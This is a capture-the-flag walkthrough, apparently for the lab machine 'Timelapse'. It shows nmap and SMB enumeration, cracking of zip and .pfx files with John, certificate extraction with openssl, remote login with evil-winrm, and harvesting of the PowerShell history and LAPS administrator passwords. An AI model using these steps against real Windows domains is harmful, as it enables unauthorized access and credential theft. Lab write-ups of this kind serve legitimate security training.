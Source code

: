 
└─$ nmap -sC -sV -Pn 10.10.11.152 -oN initial.nmap

    # Nmap 7.92 scan initiated Wed Apr 27 10:30:54 2022 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.11.152
    Nmap scan report for 10.10.11.152
    Host is up (0.019s latency).
    Not shown: 989 filtered tcp ports (no-response)
    PORT     STATE SERVICE           VERSION
    53/tcp   open  domain            Simple DNS Plus
    88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-04-27 22:31:05Z)
    135/tcp  open  msrpc             Microsoft Windows RPC
    139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
    389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ldapssl?
    3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    3269/tcp open  globalcatLDAPssl?
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 7h59m59s
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2022-04-27T22:31:13
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 27 10:31:49 2022 -- 1 IP address (1 host up) scanned in 55.41 seconds

smbclient -L //10.10.11.152 -N

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      NETLOGON        Disk      Logon server share 
      Shares          Disk      
      SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

Connect to `Shares` folder
`└─$ smbclient \\\\10.10.11.152\\Shares -N`

Once you are in, `mget` all the files in Shares folder. Use `prompt` to get rid of the yes/no confirmation. 

    smb: \> help prompt
    HELP prompt:
      toggle prompting for filenames for mget and mput

Crack the .zip with `zip2john` and `john` and get the .pfx file

Next step is to crack the password for the .pfx file with `pfx2john` and extract the `.crt` and `private key` from the .pfx file with the password found within .pfx. Use the following command to extract:

[Reference](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

Run the following command to extract the private key:

    openssl pkcs12 -in [yourfile.pfx] -nocerts -out [private.key]
    
Run the following command to extract the certificate:

    openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [legacyy.crt]

Use the following command to get the foothold and get user.txt

    └─$ evil-winrm -i 10.10.11.152 -S -c legacyy.crt -k private.key
    
Next we can use the following command `get-psreadlineoption` to get the path to powershell history file

Read the history file and you should be able to get the password for another user

Access the user powershell with this command `└─$ evil-winrm -i 10.10.11.152 -u $USER -p $PASSWORD -S`

Use this command to get the administrator password `Get-ADComputer -Filter * -Properties MS-Mcs-AdmPwd | Where-Object MS-Mcs-AdmPwd -ne $null | FT Name, MS-Mcs-AdmPwd` and once again login with `evil-winrm` to get the root flag.
